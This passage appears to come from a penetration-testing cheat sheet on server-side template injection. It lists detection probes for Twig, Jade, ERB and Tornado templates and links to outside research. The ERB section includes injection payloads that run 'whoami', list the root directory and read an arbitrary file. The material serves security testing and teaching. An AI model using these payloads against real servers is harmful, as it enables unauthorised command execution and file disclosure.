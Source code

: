 * `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{7*'7'}} = 49`
* `{{1/0}} = Error`
* `{{foobar}} Nothing`

#### More information

* In Twig and Twig \(Sandboxed\) section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

### Jade \(NodeJS\)

#### More information

* In Jade section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#jade--codepen](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jade--codepen)

#### More information

* [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### ERB \(Ruby\)

* `{{7*7}} = {{7*7}}`
* `${7*7} = ${7*7}`
* `<%= 7*7 %> = 49`
* `<%= foobar %> = Error`

```text
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```

#### More information

* [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection\#ruby](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby)

### Tornado \(Python\)

* `{{7*7}} = 49`
* `${7*7} = ${7*7}`
* `{{foobar}} = Error`
* `{{7*'7'}} = 7777777`
